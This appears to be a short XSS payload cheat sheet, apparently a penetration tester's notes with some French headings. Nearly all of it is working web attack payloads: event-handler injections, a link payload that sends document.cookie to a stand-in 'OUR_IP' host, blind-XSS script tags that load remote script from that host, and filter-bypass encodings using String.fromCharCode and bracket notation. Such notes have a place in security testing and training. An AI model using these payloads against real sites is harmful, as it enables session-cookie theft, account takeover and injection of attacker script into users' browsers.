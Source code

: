 ```javascript
"#><img src=/ onmouseover=alert(1)>
```

```javascript
<img src=/ onerror=alert(1)>
```

```js
<a onload document.location='http://OUR_IP/index.php?c='+document.cookie;>
```

```js
<script>document.write('TESTING THIS')</script>
```

### *Test BlindXSS*

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
'><script src="http://OUR_IP/script.js"></script>
```

```html
"><script src="http://OUR_IP/script.js"></script>
```

### Bypass alert()

```html
<a href onmouseover=[8].find(alert)>ptdr</a>
```

### Bypass document.domain

```javascript
<a href onmouseover=[document[String.fromCharCode(100,111,109,97,105,110)]].find(alert)>xdxd</a>
```

### Bypass quotes

Format DECIMAL
https://www.ascii-code.com/fr
https://gchq.github.io/CyberChef/#recipe=To_Decimal('Comma',false)&oeol=CRLF

```js
String.fromCharCode(88,83,83)
```

### Bypass .

```javascript
document['domain']
```

### XSS dans requête XML / LFI (Tester sur Generateur de PDF)
